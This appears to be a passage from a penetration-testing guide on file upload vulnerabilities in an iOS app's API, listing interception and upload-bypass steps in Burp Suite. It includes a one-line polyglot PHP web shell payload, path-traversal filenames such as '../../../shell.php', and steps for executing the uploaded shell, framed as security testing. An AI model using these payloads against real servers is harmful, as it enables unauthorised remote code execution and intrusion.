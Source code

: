 ```bash
- MIME type tricks

# 3. Test in iOS app:
1. Find file upload feature
2. Intercept request in Burp
3. Change file extension
4. Modify Content-Type
5. Upload malicious file

# 4. Content-Type manipulation:
POST /api/upload
Content-Type: multipart/form-data
Content-Disposition: form-data; name="file"; filename="image.jpg"
Content-Type: image/jpeg

[PHP shell content]

# 5. Test file path traversal:
filename: ../../../shell.php
filename: ..\..\..\..\shell.php

# 6. Polyglot files:
Create file that's both valid image and PHP:
GIF89a<?php system($_GET['cmd']); ?>

# 7. Test upload location:
- Upload file
- Find where it's stored
- Try to execute: https://api.example.com/uploads/shell.php

# Using Burp Suite:
1. Capture upload request
2. Send to Repeater
3. Test various file types
4. Modify filename and Content-Type
5. Check upload response for file path
6. Try to access uploaded file
```

**Expected Output**: Only safe file types allowed, stored securely.

**Vulnerability Confirmation**:
```
Vulnerable if:
- Executable files (.php, .jsp, .asp) uploaded
- Files stored in web-accessible directory
- File extension validation bypassed
- No content validation
- Files executed by server

Result: Remote Code Execution (RCE)
```
